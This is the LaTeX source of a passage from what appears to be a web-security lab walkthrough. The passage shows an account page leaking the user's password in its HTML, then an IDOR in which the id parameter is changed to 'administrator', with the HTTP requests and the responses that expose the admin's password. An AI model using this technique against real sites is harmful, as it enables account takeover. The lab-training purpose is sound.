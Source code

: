 \documentclass[11pt,letterpaper]{article}
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\begin{document}
\begin{verbatim}[language=http,caption={Step 2: Observe password disclosure on own account}]
GET /my-account?id=wiener HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession123

-- Response --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
    <h1>My Account</h1>
    <p>Your username is: <strong>wiener</strong></p>

    <form method="POST" action="/my-account/change-email">
        <label>Email</label>
        <input name="email" value="wiener@example.com">
        <button>Update email</button>
    </form>

    <form method="POST" action="/my-account/change-password">
        <label>Password</label>
        <!-- VULNERABILITY: Password pre-filled! -->
        <input type="password" name="password" value="peter">
        <button>Update password</button>
    </form>
</body>
</html>
\end{verbatim}

\begin{tipbox}
Notice the password input has \code{value="peter"} - your actual password is visible in the HTML source! This is vulnerability \#1: Password Disclosure.
\end{tipbox}

\subsection{Step 3: Exploit IDOR to Access Administrator Account}

\begin{verbatim}[language=http,caption={Step 3: Change id parameter to administrator}]
-- Using Burp Repeater, modify the id parameter --
GET /my-account?id=administrator HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession123

-- VULNERABLE Response: Administrator's account data! --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
    <h1>My Account</h1>
    <p>Your username is: <strong>administrator</strong></p>

    <form method="POST" action="/my-account/change-email">
        <label>Email</label>
        <input name="email" value="admin@example.com">
        <button>Update email</button>
    </form>

    <form method="POST" action="/my-account/change-password">
        <label>Password</label>
        <!-- CRITICAL: Administrator's password exposed! -->
        <input type="password" name="password" value="xK7mN9pQrS2t">
        <button>Update password</button>
    </form>
</body>
</html>
\end{verbatim}
\end{document}
